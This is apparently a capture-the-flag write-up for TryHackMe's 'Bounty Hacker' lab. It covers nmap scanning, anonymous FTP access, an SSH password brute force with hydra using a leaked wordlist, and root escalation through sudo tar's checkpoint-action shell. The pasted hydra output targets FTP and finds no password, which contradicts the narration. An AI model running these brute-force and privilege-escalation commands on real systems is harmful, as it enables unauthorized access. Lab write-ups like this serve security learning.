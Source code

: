 # Bounty Hunter
tryhackme - bounty hacker [easy] https://tryhackme.com/room/cowboyhacker

![9ad38a2cc31d6ae0030c888aca7fe646](https://user-images.githubusercontent.com/80511498/147251011-a47f9804-889c-483b-8e56-1bb0964e11e0.jpeg)
tryhackme 

## NMAP SCAN
*here is a nmap scan of the machine*
nmap command :- nmap -A http:// <IP_Address>

```
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.33.72
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Linux 5.0 (90%), Linux 5.1 (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 5.0 - 5.4 (89%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   22.96 ms  10.17.0.1
2   ... 4
5   145.37 ms 10.10.0.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.70 seconds
```

*we can see in the nmap result that ftp and ssh is open* 
*firstly im going to try ftp into the machine*

## FTP results
- The FTP is accessible try login with anonymous.
- command :- ftp <IP_Address> 
- when asked for user enter anonymous

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>
```
*get the files locks.txt and task.txt they are needed in further enumeration*
___
*task.txt*
in task.txt we found a user (lin)
___
```
$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
___
locks.txt
this look's like a wordlist so we will use it for bruteforce
```
*$ cat locks.txt* 
- rEddrAGON
- ReDdr4g0nSynd!cat3
- Dr@gOn$yn9icat3
- R3DDr46ONSYndIC@Te
- ReddRA60N
- R3dDrag0nSynd1c4te
- dRa6oN5YNDiCATE
- ReDDR4g0n5ynDIc4te
- R3Dr4gOn2044
- RedDr4gonSynd1cat3
- R3dDRaG0Nsynd1c@T3
- Synd1c4teDr@g0n
- reddRAg0N
- REddRaG0N5yNdIc47e
- Dra6oN$yndIC@t3
- 4L1mi6H71StHeB357
- rEDdragOn$ynd1c473
- DrAgoN5ynD1cATE
- ReDdrag0n$ynd1cate
- Dr@gOn$yND1C4Te
- RedDr@gonSyn9ic47e
- REd$yNdIc47e
- dr@goN5YNd1c@73
- rEDdrAGOnSyNDiCat3
- r3ddr@g0N
- ReDSynd1ca7e

```
---

## HYDRA
**trying to brute force ssh using hydra**
now we have the user name and we will use the wordlist locks.txt to brute force
command :- hydra -l lin -P locks.txt  <IP_Address> ssh
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 21:45:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ftp://10.10.0.198:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-22 21:45:39
```
- we found the password and login via ssh
  we see the user flag 
- we just cat the user flag 
- user.txt - THM{userflag}
___

### Priv Sec
now we need to escalate our privilege
we can exploit  lin's sudo privilege
command :- sudo -l
```
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

*i searched more on tar sudo privilege escaltion and found this*


just run the following command 
- command :- sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

![68747470733a2f2f692e696d6775722e636f6d2f41397a70647a6e2e706e67](https://user-images.githubusercontent.com/80511498/147251386-5d178b8c-1a21-4590-90d1-fde988fe1ecc.png)


- now we have a root access you can see by typing :- sudo -l
![68747470733a2f2f692e696d6775722e636f6d2f633845557361732e706e67](https://user-images.githubusercontent.com/80511498/147251202-77aa7dce-db3a-4829-a758-fba7623e3173.png)

- cd into /root to get to the root flag
___

